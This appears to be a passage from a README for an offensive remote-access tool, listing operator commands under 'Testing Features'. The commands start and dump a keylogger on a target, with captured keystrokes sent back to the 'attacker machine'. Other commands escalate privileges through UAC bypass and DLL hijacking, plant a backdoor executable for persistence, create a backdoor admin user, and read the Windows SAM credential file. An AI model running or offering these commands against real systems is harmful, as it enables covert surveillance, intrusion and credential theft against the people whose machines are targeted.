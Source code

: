### Testing Features

#### Keylogger

```bash
# Start capturing keystrokes
keylog_start

# Download captured keystrokes (auto-downloads to attacker machine)
keylog_dump
# File saved as: keylog_dump_YYYYMMDD_HHMMSS.txt

# Check keylogger status
keylog_status

# Stop keylogger
keylog_stop

# Clear logs on target
keylog_clear
```

#### Privilege Escalation

```bash
# Check current privileges
priv_check

# Enumerate escalation vectors
priv_enum

# Comprehensive escalation scan (all techniques)
priv_scan

# List services (potential vulnerabilities)
priv_services

# Find scheduled tasks
priv_tasks

# Search for sensitive files
priv_sensitive

# Find weak file permissions
priv_weak_perms

# Windows UAC bypass (Windows only)
priv_uac_bypass

# Find DLL hijacking opportunities (Windows only)
priv_dll_hijack

# Create persistence mechanism
priv_persist

# Create persistence at specific path
priv_persist C:\Windows\Temp\backdoor.exe

# Create backdoor user (requires admin/root)
priv_user hacker SecurePass123

# Read admin-protected file
priv_read_file C:\Windows\System32\config\SAM

```